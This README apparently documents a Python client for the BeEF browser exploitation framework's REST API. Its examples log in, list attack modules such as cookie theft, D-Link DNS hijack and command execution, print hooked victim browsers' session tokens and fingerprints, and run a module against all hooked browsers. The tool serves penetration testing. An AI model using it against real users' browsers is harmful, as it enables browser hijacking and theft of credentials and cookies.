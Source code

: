 BeEF-API
=======

Python library that facilitates interacting with [BeEF](http://beefproject.com/) via it's RESTful API

Requires Python 2.7 and the ```requests``` package

Examples
========

- import the library and login to BeEF
```
In [1]: from core.beefapi import BeefAPI

In [2]: beef = BeefAPI({})

In [3]: beef.login('beef', 'beef')
Out[3]: True

```
- Print the id and name of all available modules:
```
In [10]: for module in beef.modules:  
   ....:     print module.id, module.name
   ....:
222 Replace HREFs (HTTPS)
223 Redirect Browser (Rickroll)
220 Replace Videos
221 Fingerprint Ajax
218 iOS Address Bar Spoofing
219 Redirect Browser
216 Get Cookie
217 Get Page HREFs

-- SNIP --     
```

- Find all modules containing the string 'd-link' and print their id and name:
```
In [7]: for module in beef.modules.findbyname('d-link'):
   ...:     print module.id, module.name
   ...:     
88 D-Link DSL-2740R DNS Hijack
67 D-Link DIR-615 Password Wipe
120 D-Link ShareCenter Command Execution
81 D-Link DSL-2640B DNS Hijack
80 D-Link DSL500T CSRF

```

- Find all online hooked browsers that have the string 'windows' in their OS attribute
```
In [7]: beef.hooked_browsers.online.findbyos('windows')
Out[7]: [<core.beefapi.Session object at 0x7f24b40dd710>]

In [8]: beef.hooked_browsers.online.findbyos('windows')[0].id
Out[8]: 2

In [9]: beef.hooked_browsers.online.findbyos('windows')[0].session
Out[9]: u'0EbkU7OUmaLBSGOtcdy43wMIh1r2VtU7O2QHsSzYJKONQCJ90gMnj53CQOQnZ9IfNIkr5SLBde1puw3v'

In [10]: beef.hooked_browsers.online.findbyos('windows')[0].name
Out[10]: u'FF'

In [11]: beef.hooked_browsers.online.findbyos('windows')[0].details
Out[11]: 
{u'BrowserLanguage': u'en-US',
 u'BrowserName': u'FF',
 u'BrowserPlatform': u'Win32',
 u'BrowserPlugins': u'Google Update-v.1.3.27.5,Java Deployment Toolkit 6.0.300.12-v.6.0.300.12,Silverlight Plug-In-v.5.1.40416.0',
 u'BrowserReportedName': u'Mozilla/5.0 (Windows NT 6.3; rv:38.0) Gecko/20100101 Firefox/38.0',
 u'BrowserType': u'{"C19iOS":null,"C20iOS":null,"C21iOS":null,"C22iOS":null,"C23iOS":null,"C24iOS":null,"C25iOS":null,"C26iOS":null,"C27iOS":null,"C28iOS":null,"C29iOS":null,"C30iOS":null,"C31iOS":null,"C32iOS":null,"C33iOS":null,"C34iOS":null,"C35iOS":null,"C36iOS":null,"C37iOS":null,"C38iOS":null,"C39iOS":null,"C40iOS":null,"C41iOS":null,"C42iOS":null,"C":null,"FF38":true,"FF":true}',
 u'BrowserVersion': u'38',
 u'CPU': u'32-bit',

 -- SNIP--
```

- Print the id, browser and os of all online hooked browsers
```
In [13]: for hook in beef.hooked_browsers.online:
    print hook.id, hook.name, hook.os
   ....:     
2 FF Windows 8.1
```

- Run a module against all online hooked browsers:
```
In [14]: for hook in beef.hooked_browsers.online:
   ....:     print hook.run(223)
   ....:     
{u'success': u'true', u'command_id': u'4'}
```

- Get the results of the previously executed module
```
In [25]: beef.hooked_browsers.online
Out[25]: [<core.beefapi.Session object at 0x7f079cd89090>]

In [18]: session = beef.hooked_browsers.online[0].session

In [20]: beef.modules.findbyid(223).results(session, 4)
Out[20]: 
{u'0': {u'data': u'{"data":"result=Rickroll Successful"}',
  u'date': u'1433706868'}}
```

